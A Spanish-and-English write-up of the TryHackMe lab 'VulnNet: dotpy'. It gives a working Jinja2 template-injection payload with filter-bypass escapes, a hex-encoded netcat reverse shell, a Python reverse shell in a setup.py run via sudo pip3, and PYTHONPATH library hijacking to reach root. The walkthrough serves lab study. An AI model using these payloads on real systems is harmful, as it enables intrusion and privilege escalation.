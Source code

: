 ```yaml
---
title : "VulnNet: dotpy - Write Up - Español"
date : 2021-07-12T12:39:34+02:00
author : "Lanfran02"
cover : "cover.png"
useRelativeCover : true
description : "Máquina de nivel medio en TryHackMe."
tags : ["SSTI","Python","{{7*7}}","Burpsuite","sudo","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/vulnnetdotpy)  | Medio |  [TheCyb3rW0lf](https://tryhackme.com/p/TheCyb3rW0lf)  |


## Reconocimiento

Primero escaneamos la máquina con `nmap` para verificar qué puertos están abiertos/cerrados/filtrados.

```bash
╰─ lanfran@parrot ❯ map 10.10.43.197                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-12 12:49 CEST
Nmap scan report for 10.10.43.197
Host is up (0.067s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.43.197:8080/login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.12 seconds
```

¡Bien! Tenemos un servidor web `Python` que se ejecuta en el puerto 8080.

Vamos a navegar hacia el.

La página nos solicita iniciar sesión/registrarnos. Pero intenté navegar a una página que no existía.

![not_registered](not_registered.png)

Mmmm una página 403, que nos obliga a iniciar sesión...

Así que hagámoslo, creemos un usuario ficticio e inicie sesión, para que podamos navegar a esa página de nuevo...

Una vez que haya iniciado sesión, navegue de nuevo a la página que no existe y veamos algo muy interesante.

![logged_in](logged_in.png)

La página nos muestra la página solicitada, tal vez podamos explotar esto...

Así que utilicé el exploit común `{{7 * 7}}` para comprobar si era vulnerable, ¡¡y devolvió 49 !!

![exploit](exploit.png)


## Acceso inicial - Usuario

So we can exploit this with the following code.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('###CODE###')|attr('read')()}}
```
Where says `###CODE###` you can just put your system command, so let's use `burpsuite` to send the request with `id` and see which user are we

![id](id.png)

Good! We are the `web` user, let's encode our shell to hex so we can run it, here you have the shell and the perfect encoding in a [Cyberchef recipe](https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgSVAgMTMzNyA%2BL3RtcC9m) !

Send it with burpsuite, and get your reverse shell with `netcat`

![user](user.png)

Perfect! We now have a reverse shell, so let's first run `sudo -l` to see if our user can run a command with any other user
```bash
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
web@vulnnet-dotpy:~$
```
Interesante, podemos ejecutar `pip3 install` con el usuario `system-adm`...

Al leer la página [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#shell), creé otra shell reversa:

```bash
########VICTIMA
web@vulnnet-dotpy:/tmp/project$ cat setup.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.160",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
web@vulnnet-dotpy:/tmp/project$ sudo -u system-adm /usr/bin/pip3 install .
Processing /tmp/project

########ATACANTE

╰─ lanfran@parrot ❯ nc -nlvp 1338                                                                                                  ─╯
listening on [any] 1338 ...
connect to [10.9.2.160] from (UNKNOWN) [10.10.43.197] 45420
$ id
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)
w$whoami
system-adm
$ cat /home/system-adm/user.txt
THM{[REDACTADO]}
$
```

¡Y ahora podemos leer la bandera del usuario!

## Root

Una vez más con este nuevo usuario, ejecuté `sudo -l` y obtenemos este resultado:

```bash
system-adm@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```
Podemos aprovechar una vulnerabilidad de Pythonpath, en estos sencillos pasos:

1. Cree una "biblioteca de python" maliciosa llamada "zipfile.py" (que está siendo utilizada por el script `backup.py`) en`/tmp`
2. Ejecute este comando `sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py`

1) 	
```bash
system-adm@vulnnet-dotpy:~$ echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py
system-adm@vulnnet-dotpy:~$ cat /tmp/zipfile.py 
import pty; pty.spawn("/bin/bash")
```
2)
```bash
system-adm@vulnnet-dotpy:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
root@vulnnet-dotpy:/home/system-adm# id
uid=0(root) gid=0(root) groups=0(root)
root@vulnnet-dotpy:/home/system-adm# whoami
root
root@vulnnet-dotpy:/home/system-adm# cat /root/root.txt 
THM{[REDACTADO]}
root@vulnnet-dotpy:/home/system-adm# 
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!